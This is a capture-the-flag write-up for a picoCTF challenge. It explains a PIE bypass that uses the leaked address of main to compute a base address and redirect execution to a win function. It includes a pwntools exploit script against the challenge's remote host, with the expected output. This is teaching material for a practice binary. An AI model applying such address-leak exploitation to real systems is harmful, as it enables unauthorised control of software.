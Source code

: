
![[Pasted image 20250315203510.png]]
## **Step 1: Understanding PIE**

- PIE makes the binary load at a random base address.
- However, the program leaks the **address of `main`**, which allows us to calculate the base address.

---

## **Step 2: Extracting Addresses**

- The binary provides the address of `main` at runtime.
- Using this, we can calculate the **base address** by subtracting an offset.
- Once we have the base address, we can locate the **win function**.

---

## **Step 3: Constructing the Payload**

- Convert the win function address to a **hex string**.
- Send it as input to overwrite the execution flow.

---

## **Solution Script**

```
from pwn import *

binary = context.binary = ELF('./vuln', checksec=False)

# Connect to remote service
p = remote("rescued-float.picoctf.net", 51449)

# Receive and extract main's address
p.recvuntil(b"Address of main:")
main = int(p.recvline().strip(), 16)

log.info("Main: %#x", main)

# Calculate base address
base = main - 0x133d
log.info("Base: %#x", base)

# Calculate win function address
win = base + 0x12a7
log.info("Win: %#x", win)

# Send the calculated win address as input
p.sendline(f"{win:#x}".encode())

# Interactive shell
p.interactive()

```

## **Explanation of the Exploit**

1. **Leaking `main` Address:**
    
    - The program prints `main`'s address.
    - We parse and store it.
2. **Calculating Base Address:**
    
    - Since `main` is at `0x133d` offset, we subtract to get the base.
3. **Finding `win` Function Address:**
    
    - `win` is at `0x12a7` from the base.
    - Add base address to get the actual address.
4. **Sending the Address as Input:**
    
    - The program expects input that redirects execution.
    - We send the computed **win function address** in hexadecimal.

---

## **Expected Output**


`[*] Main: 0x565560133d 
[*] Base: 0x5655600000
[*] Win: 0x56556012a7
`
Then, the flag should be printed.

![[Pasted image 20250315204023.png]]
---

## **Final Thoughts**

- The challenge is a classic **PIE bypass** by leveraging a leaked address.
- No need for ROP or buffer overflow—just calculating and redirecting execution.